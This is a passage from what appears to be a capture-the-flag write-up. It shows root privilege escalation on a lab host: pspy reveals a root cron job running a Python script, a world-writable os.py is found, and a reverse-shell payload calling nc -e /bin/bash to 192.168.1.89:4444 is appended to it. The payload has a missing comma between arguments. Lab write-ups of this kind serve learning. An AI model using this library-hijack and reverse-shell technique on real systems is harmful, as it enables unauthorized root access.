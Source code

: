 ```shell
Saving to: ‘pspy64’

pspy64                                                          0%[                                                                                                                                                  ]    pspy64                                                        100%[=================================================================================================================================================>]   2.96M  --.-KB/s    in 0.06s   

2025-03-31 10:04:08 (45.9 MB/s) - ‘pspy64’ saved [3104768/3104768]
```

Yes, a cron task is executing it:

```shell
2025/03/31 10:12:17 CMD: UID=0     PID=3407   | 
2025/03/31 10:13:01 CMD: UID=0     PID=3409   | /usr/sbin/CRON -f 
2025/03/31 10:13:01 CMD: UID=0     PID=3410   | /usr/sbin/CRON -f 
2025/03/31 10:13:01 CMD: UID=0     PID=3411   | /bin/sh -c /usr/bin/python3.9 /opt/suid.py 

```

Now let's check the sys path:

```shell
david@system:/opt$ python3 -c 'import sys; print(sys.path)'
['', '/usr/lib/python39.zip', '/usr/lib/python3.9', '/usr/lib/python3.9/lib-dynload', '/usr/local/lib/python3.9/dist-packages', '/usr/lib/python3/dist-packages']
```

We can check if **os** or **pathlib** has writable permissions:

```shell
david@system:/opt$ ls /usr/lib/python3.9 -l | grep os
-rw-rw-rw- 1 root root  39063 Apr  2  2022 os.py
-rw-r--r-- 1 root root  21780 Feb 28  2021 _osx_support.py
-rw-r--r-- 1 root root  15627 Feb 28  2021 posixpath.py
```

**os** has writable permissions!. So now I write this in the end of the file:

```python
import subprocess

def esc():
    subprocess.run(["nc","-e""/bin/bash","192.168.1.89","4444"])

esc()
```

While I wait for the cron task to execute, I execute **netcat** on the indicate port and I got the connection from:



![](/assets/img/Anexos/Pasted%20image%2020250401082129.png)